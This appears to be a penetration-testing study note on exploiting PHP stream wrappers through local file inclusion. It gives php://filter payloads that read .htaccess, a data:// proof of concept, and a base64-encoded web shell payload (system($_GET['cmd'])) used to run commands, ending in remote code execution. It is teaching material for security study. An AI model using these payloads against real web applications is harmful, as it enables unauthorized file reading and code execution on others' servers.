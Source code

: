 
PHP wrappers are part of PHP's functionality that allows users access to various data streams. Wrappers can also access or execute code through built-in PHP protocols, which may lead to significant security risks if not properly handled.

### Filter Wrapper

For example, the table below represents the output of the target file .htaccess using the different string filters in PHP, Don't forget to add `?page=`.

|   |   |
|---|---|
|**Payload**|**Output**|
|php://filter/convert.base64-encode/resource=.htaccess |UmV3cml0ZUVuZ2luZSBvbgpPcHRpb25zIC1JbmRleGVz|
|php://filter/string.rot13/resource=.htaccess|ErjevgrRatvar ba Bcgvbaf -Vaqrkrf|
|php://filter/string.toupper/resource=.htaccess|REWRITEENGINE ON OPTIONS -INDEXES|
|php://filter/string.tolower/resource=.htaccess|rewriteengine on options -indexes|
|php://filter/string.strip_tags/resource=.htaccess|RewriteEngine on Options -Indexes|
|No filter applied|RewriteEngine on Options -Indexes|

### Data Wrapper

The data stream wrapper is another example of PHP's wrapper functionality. The `data://` wrapper allows inline data embedding. It is used to embed small amounts of data directly within the URI, often used for embedding small data sets or resources.

**Note:** allow_url_include must be set!

For example, `?page=data:text/plain,<?php%20phpinfo();%20?>` (POC)

We could use both data and filter by adding this payload `php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=` which belongs to this `<?php system($_GET['cmd']);?>`, then we could do something like this:
`php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7Pz4=&cmd=whoami`

Now we have RCE!.

![](../Attachments/Pasted%20image%2020240212141401.png)

Taken from https://www.cdxy.me/?p=752

check https://www.thehacker.recipes/web/inputs/file-inclusion/lfi-to-rce/php-wrappers-and-streams for more payloads and testing.